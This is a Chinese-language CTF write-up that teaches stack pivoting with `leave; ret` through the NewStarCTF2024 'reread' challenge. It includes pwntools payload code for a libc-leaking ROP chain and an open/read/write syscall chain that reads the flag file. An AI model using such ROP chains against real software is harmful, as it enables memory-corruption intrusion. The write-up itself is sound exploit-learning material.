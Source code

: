 栈迁移多见于一些栈溢出长度不足以做更多的事，溢出长度仅仅能覆盖返回地址附近的情况。
要使用栈迁移则首先需要了解`leave; ret`指令。
便于理解的来说，`leave`指令等价于
```armasm
mov esp, ebp  ; 恢复栈指针
pop ebp       ; 恢复基址指针
```
`ret`指令等价于
```armasm
pop eip ; 这样写是方便理解，实际上不存在 pop eip 这个汇编指令
```
用32位程序的例子展示一下栈迁移的作用
![[Pasted image 20241120090206.png]]
这是初始时的栈空间，一半来说函数正常结束便会执行一次`leave; ret`指令，比如例子中执行后便会将`exp`移至`0xffffce28`处，`esp`移至`0xffffce08`处
但我们若是将原本`exp`处指向的地址更改了，再调用`leave; ret`指令，便可以控制`ebp`去往我们想让他去的地方，同时将原本的返回函数改为`leave; ret`指令，则可以使`esp`移至我们指向的地址执行指令。
![[Pasted image 20241120090544.png]]
![[Pasted image 20241120090753.png]]
注意，在上面的图例中，第二次执行`leave; ret`指令后发现`ebp`不见了，这是因为例子中`0xffffcdc8`指向的地址是未知的，实际应用时应注意。
这里用一道例题来举例。[NewStarCTF2024-Week4-reread](https://ctf.xidian.edu.cn/training/14?challenge=635)
![[Pasted image 20241120091518.png]]
可以看到是有一个栈溢出贴脸的，但溢出长度只有`0x10`，仅仅的能覆盖返回函数，所以要用到栈迁移。
![[Pasted image 20241120092031.png]]
按照之前分析的，将`rbp`指向的返回地址更换为我们想要的地址，这里是一段空的`bss`地址，同时将返回函数替换为`read`函数的地址再执行一遍来读入
![[Pasted image 20241120092213.png]]
可以看到执行完自带的`leave; ret`后，`rbp`的地址已经变为我们设定的`bss`段的地址
![[Pasted image 20241120092254.png]]
第二次执行`read`时便是向我们指向的地址读入数据。

接下来需要构造泄露libc基址的ROP链
```
payload2 = p64(bss2) + p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(vuln_read)

payload2 += p64(bss - 0x28) + p64(leave_ret)

p.send(payload2.rjust(0x50, b'a'))
```
这里解释一下这段`payload`为什么如此构造
![[Pasted image 20241120093135.png]]
这里我们相当于向`0x404120`的`bss`段注入了这些内容，在注入完这些内容后会执行`read`其自带的`leave; ret`函数
![[Pasted image 20241120093358.png]]![[Pasted image 20241120093403.png]]
执行完`leave`后会发现`rbp`和`rsp`分别移动到了0x404138与0x404168处
![[Pasted image 20241120093506.png]]![[Pasted image 20241120093543.png]]
继续执行`ret`后进入我们设定的返回函数，即`leave; ret`指令
![[Pasted image 20241120093813.png]]![[Pasted image 20241120093836.png]]
执行完第二次`leave; ret`后会发现程序按照我们希望的进入了泄露`puts`函数地址的段。
这部分详细解释一下，红色部分是上面第一次`leave; ret`后我们将`rbp`移到的空白`bss`段，黄色部分则相当于返回函数，`vuln`中`read`函数的读入是
![[Pasted image 20241120094153.png]]
所以是从`0x404120`开始一直读到`0x404170`为止，覆盖了返回地址和返回函数。
将返回地址设置为`bss- 0x8 * 5` 即为`0x404138`是我们泄露地址的ROP链的前一段，至于为什么将`0x404138`设为另一段`bss`地址`bss2`等会说。这里执行完`read`自带的`leave; ret`后会开始执行返回函数设置的`leave; ret`，将`rbp`再次转移到我们设置的`bss2`段，`rsp`则开始执行泄露`puts`函数地址的ROP链来获取libc基址。
现在说一下为什么要设置一个`bss2`，如果不设置的话，用一段`deadbeef`覆盖的话第二次`leave; ret`后`rbp`的位置就会无法找到，但我们目前仅仅获取了libc基址，后面仍需读入`orw`的ROP链来获取flag，这里设置`bss2`就是开辟一个新的空间来读入新的`payload`。

接下来则重复上面的操作，因为orw的ROP链一般较长，0x50不够，我们还需手动构造一个新的read函数来读入我们的ROP链，然后用新的read来读入ROP链。
```python
# 开辟新的bss段，用于存放ROP链，避免与前面冲突
payload3 = b'a' * (0x40) + p64(bss2 + 0x100) + p64(vuln_read)
p.send(payload3)
buf = bss2 + 0x100 - 0x8 * 1
read_addr = libc_base + lib.symbols['read']

payload4 = p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(buf) + p64(pop_rdx_r12) + p64(0x200) + p64(0) + p64(read_addr)
payload4 += p64(bss2 + 0x100 - 0x8 * 9) + p64(leave_ret)
p.send(payload4.ljust(0x50, b'a'))

# gdb.attach(p)
# open,dup2,read,write
payload5 = flat([
    pop_rdi, buf,
    pop_rsi, 0,
    pop_rdx_r12, 0, 0,
    pop_rax, 2,
    syscall,
    pop_rdi, 3,
    pop_rsi, 0,
    pop_rax, 33,
    syscall,
    pop_rdi, 0,
    pop_rsi, elf.bss(0x20),
    pop_rdx_r12, 0x100, 0,
    pop_rax, 0,
    syscall,
    pop_rdi, 1,
    pop_rsi, elf.bss(0x20),
    pop_rdx_r12, 0x40, 0,
    pop_rax, 1,
    syscall
])

payload5 = b'./flag\x00\x00' + payload5
p.send(payload5)
```

新的payload3注入的位置就是payload2里设置的bss2的位置
![[Pasted image 20241120100910.png]]
这里由于构造新read函数的ROP链长度刚好为0x50，我们没有空余空间控制rbp的范围地址，所以在注入payload5时，只能将payload5覆盖原来的位置让esp在leave; ret后直接执行。
执行后便能获取flag。
![[Pasted image 20241120101523.png]]